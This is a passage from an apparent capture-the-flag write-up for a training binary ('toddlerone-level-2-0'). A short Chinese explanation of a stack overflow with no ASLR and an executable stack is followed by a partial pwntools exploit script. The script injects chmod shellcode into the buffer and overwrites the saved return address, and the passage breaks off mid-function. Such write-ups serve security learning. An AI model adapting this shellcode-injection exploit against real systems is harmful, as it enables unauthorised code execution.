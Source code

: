 ```c del={8, 19, 52, 60} collapse={1-4, 12-15, 23-48, 56-56, 64-79}
  printf("- the saved return address is now pointing to %p.\n", *(const void **)rp_);
  putchar(10);
  puts("Goodbye!");
  return 0LL;
}
```

很明显的栈溢出，没开 ASLR，而栈又有 `rwx` 权限。那我们把 shellcode 注入到 `buf` 头，再覆盖返回地址为 `buf` 头的地址就好了。

## Exploit

```python
#!/usr/bin/python3

from pwn import ELF, asm, context, gdb, log, os, p64, process, remote, shellcraft

context(log_level="debug", terminal="kitty")

FILE = "./toddlerone-level-2-0"
HOST, PORT = "localhost", 1337

gdbscript = """
c
"""

ret_addr = p64(0x00007FFFFFFFD330)


def launch(local=True, debug=False, aslr=False, argv=None, envp=None):
    if local:
        elf = ELF(FILE)
        context.binary = elf

        if debug:
            return gdb.debug(
                [elf.path] + (argv or []), gdbscript=gdbscript, aslr=aslr, env=envp
            )
        else:
            return process([elf.path] + (argv or []), env=envp)
    else:
        return remote(HOST, PORT)


def send_payload(target, payload):
    try:
        target.send(payload)
    except Exception as e:
        log.exception(f"An error occurred while sending payload: {e}")


def construct_payload(padding_size):
    shellcode = asm(shellcraft.chmod("f", 0o4))
    shellcode_length = len(shellcode)
    shellcode += b"".ljust(padding_size - shellcode_length, b"A")
    shellcode += ret_addr

    return shellcode


def attack(target, payload):
    try:
        os.system("ln -s /flag f")

```